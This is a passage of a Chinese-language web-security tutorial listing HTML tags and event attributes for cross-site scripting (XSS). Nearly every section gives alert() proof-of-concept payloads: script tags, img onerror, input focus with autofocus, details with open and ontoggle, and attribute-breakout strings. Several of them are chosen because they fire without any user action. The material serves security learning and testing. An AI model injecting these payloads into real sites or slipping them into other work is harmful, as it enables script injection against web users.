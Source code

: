 一些常用的标签与属性

下面我列举的标签大部分是可以自动触发js代码的，无需用户去交互，大部分情况下我们也是希望是自动触发而不是等用户去触发。

### 1.scirpt 标签

```js
<script> 标签用于定义客户端脚本，比如 JavaScript。
<script>alert(1);</script>
<script>alert("xss");</script>
```

### 2.img 标签

```js
<img> 标签定义 HTML 页面中的图像。
<img src=1 onerror=alert(1);>
<img src=1 onerror=alert("xss");>
```

### 3.input 标签

```js
<input> 标签规定了用户可以在其中输入数据的输入字段。
onfocus 事件在对象获得焦点时发生：
<input onfocus=alert(1);>
```

竞争焦点，从而触发onblur事件：

```js
<input onblur=alert(1) autofocus><input autofocus>
```

input 标签的 autofocus 属性规定当页面加载时 元素应该自动获得焦点。可以通过autofocus属性自动执行本身的focus事件，这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户去触发：

```js
<input onfocus="alert(1);" autofocus>

" οnclick=alert(1)>        这样需要点击一下输入框<br>
" onmouseover=alert(1)>    需要鼠标划过输入框<br>
```

### 4.details 标签


```js
<details> 标签通过提供用户开启关闭的交互式控件，规定了用户可见的或者隐藏的需求的补充细节。ontoggle 事件规定了在用户打开或关闭 <details> 元素时触发：
<details ontoggle=alert(1);>
```

使用details 标签的 open 属性触发ontoggle事件，无需用户去点击即可触发：


```js
<details open ontoggle=alert(1);>
```
